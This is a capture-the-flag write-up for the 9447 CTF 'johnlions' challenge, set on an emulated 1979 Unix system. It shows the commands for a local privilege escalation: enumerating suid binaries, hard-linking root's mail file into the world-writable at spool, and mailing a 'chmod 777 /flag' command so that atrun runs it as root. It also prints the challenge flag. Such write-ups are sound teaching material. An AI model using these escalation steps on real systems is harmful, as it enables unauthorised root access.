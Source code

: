 #9447 CTF - johnlions (writeup)


####Description:

 - johnlions (250pts)
 - telnet johnlions.9447.plumbing
 - login ctf


The first thing done was to list the content of current dir. This revealed the precious flag, but as expected I couln't read it.  
```
$ ls -la
total 134
drwxrwxr-x 9 root      272 Sep 22 06:38 .
drwxrwxr-x 9 root      272 Sep 22 06:38 ..
drwxrwxr-x 2 bin      2512 Sep 22 06:38 bin
-rwxr-xr-x 1 bin      8986 Jun  8  1979 boot
drwxrwxr-x 2 bin       208 Sep 22 05:56 dev
drwxrwxr-x 2 bin       336 Sep 22 06:24 etc
-r-------- 1 root       28 Sep 22 06:25 flag
drwxrwxr-x 2 bin       320 Sep 22 05:33 lib
drwxrwxr-x 2 root       96 Sep 22 05:46 mdec
drwxrwxrwx 2 root      112 Sep 22 06:36 tmp
-rwxr-xr-x 1 root    51982 Jun  8  1979 unix
drwxrwxr-x12 root      208 Sep 22 05:58 usr
$ cat flag
cat: can't open flag
```

The next thing done was to look for suid binaries and see if some of them can be used to 
escalate privileges.

```
$ find / -user root -perm -4000 -print
/bin/mv
/bin/login
/bin/mail
/bin/mkdir
/bin/newgrp
/bin/passwd
/bin/su
/bin/rmdir
/usr/lib/atrun
```


The /usr/lib/atrun seemed an interesting vector, it runs jobs queued by 'at'. This was abused in the past to execute command as root. The attack is possible because the /usr/spool/at is writable by anyone. What is needed is to create a file in a specific format in this directory and wait to atrun execute it. We can create a link to a file owned by root and try to inject our commands there.

#### The attack

Create the link
```
$ ln /usr/spool/mail/root /usr/spool/at/88.265.0824.21
```

Now send a mail to root with the command you want to execute
```
$ mail root
chmod 777 /flag
```

Wait and see the result
```
$ ls -la /flag
-rwxrwxrwx 1 root       28 Sep 22 06:25 /flag
$ cat /flag
9447{h4cking_like_its_1979}
```

###The flag: 9447{h4cking_like_its_1979}
